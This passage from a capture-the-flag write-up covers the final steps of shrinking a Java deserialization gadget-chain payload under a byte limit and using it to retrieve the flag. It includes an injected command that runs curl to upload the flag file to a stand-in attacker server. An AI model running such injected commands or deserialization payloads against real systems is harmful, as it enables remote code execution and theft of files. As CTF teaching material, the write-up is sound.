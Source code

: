 ![final bytecode](img/final_class_bytecode.png)

After finding the shortest possible code to send a file to a webserver I regenerated the payload and it now was **1960 bytes** long just **4 bytes** short of the limit. As I couldn't get my injected payload shorter than `java.lang.Runtime.getRuntime().exec(\"curl -T flag your_server.com\");` I looked at the output of `SerializationDumper` again.

### Removing the last unused field

I noticed that at the bottom there was one lonely `_toStringBean`. I knew that the `ToStringBean` was necessaary for the exploit to work but it still looked off to me because there was another `ToStringBean` at the top of the file. I realized that this `ToStringBean` must belong to the second `ObjectBean` and wondered if it was necessary for the exploit to work. The `toString()` was only ever called on the first `ObjectBean`. I removed it and the exploit still worked. The payload now was **1944 bytes** long, barely under the limit of **1956 bytes**.

## Getting the flag

I sent my final payload to the challenge server and it worked like a charm. I immediately got the flag sent to my test server listening to post requests.

# Conclusion
